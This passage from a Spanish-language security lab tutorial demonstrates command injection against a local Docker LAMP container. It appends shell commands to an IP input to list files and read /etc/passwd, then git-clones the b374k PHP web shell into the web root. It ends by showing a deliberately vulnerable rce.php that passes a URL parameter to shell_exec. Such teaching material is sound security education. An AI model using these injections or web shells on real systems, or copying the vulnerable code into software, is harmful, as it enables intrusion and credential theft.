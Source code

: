 Podemos llegar a listar los archivos del directorio donde se encuentra el archivo rce.php con 
~~~
8.8.8.8 & ls
~~~
Si se muestran archivos del sistema en pantalla, el ataque funciona.

![](images/rce4.png)

**Probar más comandos:**

~~~
8.8.8.8 & cat /etc/passwd
~~~

![](images/rce5.png)

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

Accedemos a nuestro servidor Apache (como lo estamos ejecutando desde un contenedor docker):

~~~
docker exec -it  lamp-php83 /bin/bash
~~~

modificamos los permidos de /var/www/html

~~~
sudo chmod -R 777 /var/www/html/
~~~

Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 

~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.

![](images/rce4.png)

~~~
http://localhost/b374k/index.php
~~~

![](images/rce14.png)

El atacante tiene control total del sistema.

### Mitigaciones de RCE
Para las mitigaciones vamos a utilizar otros archivos: 

Este es el contenido de rce.php
~~~
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
~~~
